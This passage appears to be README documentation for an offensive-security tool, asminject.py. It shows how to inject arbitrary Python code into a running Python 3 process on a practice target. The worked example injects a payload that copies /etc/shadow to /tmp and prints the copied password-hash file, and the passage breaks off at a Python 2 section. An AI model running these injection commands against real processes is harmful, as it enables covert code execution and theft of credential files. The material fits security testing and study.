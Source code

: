 ## Execute arbitrary Python code inside an existing Python 3 process

Launch a harmless Python process that simulates one with access to super-secret, sensitive data.

```
$ sudo python3 practice/python_loop.py

2022-05-12T19:46:46.245462 - Loop count 0
2022-05-12T19:46:51.253640 - Loop count 1
2022-05-12T19:46:56.264897 - Loop count 2
```

In a separate terminal, locate the process and inject some arbitrary Python code into it. Note the use of the `--non-pic-binary` option discussed later in this document, as this is required for Python 3 specifically.

This payload requires one variable: `pythoncode`, which should contain the Python script code to execute in the existing Python process.

This payload requires relative offsets for the `python` binary used by the target process (e.g. for Python 3, something like `/usr/bin/python3.9`).

```
# ps auxww | grep python3 | grep -v grep

...omitted for brevity...
root     2037475  0.1  0.2  16988 10224 pts/9    S+   12:46   0:00 python3 practice/python_loop.py
...omitted for brevity...

# ./get_relative_offsets.sh /usr/bin/python3.9 > relative_offsets-python3.9.txt

# python3 ./asminject.py 2037475 asm/x86-64/execute_python_code.s --relative-offsets relative_offsets-python3.9.txt --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();" --non-pic-binary "/usr/bin/python3\\.[0-9]+"
...omitted for brevity...
```

Verify that the file has been copied:

```
# cat /tmp/bishopfox.txt 

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
```

## Execute arbitrary Python code inside an existing Python 2 process

If you're targeting a legacy Python 2 process instead of Python 3, you'll most likely need to omit the `--non-pic-binary` option and specify relative offsets for the Python 2 binary instead of Python 3, e.g. same as the previous example, except:
